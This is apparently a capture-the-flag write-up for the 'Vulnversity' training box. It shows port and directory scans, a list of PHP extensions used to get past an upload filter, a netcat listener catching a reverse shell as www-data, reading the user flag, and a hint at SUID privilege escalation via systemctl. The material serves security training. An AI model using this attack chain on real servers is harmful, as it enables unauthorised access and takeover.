 # Vulnversity

## Reconnaissance

Scan the box, how many ports are open? 6

```
nmap -sV -n 10.10.123.163
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 13:21 CDT
Nmap scan report for 10.10.123.163
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

## Locating directories using GoBuster

What is the directory that has an upload form page? http://10.10.123.163/internal/

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.123.163:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.163:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/17 13:34:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.123.163:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.123.163:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.123.163:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.123.163:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.123.163:3333/internal/]
```

### Compromise the server

Try upload a few file types to the server, what common extension seems to be blocked?

.php

```
nano phpext.txt

GNU nano 5.4                           
phpext.txt                                             
.php
.php3
.php4
.php5
.phtml

cat phpext.txt
.php
.php3
.php4
.php5
.phtml
```

Run this attack, what extension is allowed?


https://github.com/regtay/Vulnversity/blob/main/Images/Burpsuite%20View%20.png

https://github.com/regtay/Vulnversity/blob/main/Images/Rervereshell%20upload.png

https://github.com/regtay/Vulnversity/blob/main/Images/Upload%20.png



```
nc -lvnp 9001                                                                                   
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46740
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
16:31:25 up  1:56,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$

What is the name of the user who manages the webserver? bill

What is the user flag? 8bd7992fbe8a6a----------04cfcedb

```

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46752
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:34:23 up  1:59,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6a----------04cfcedb
$
```

#### Privilege Escalation

On the system, search for all SUID files. What file stands out?

systemctl
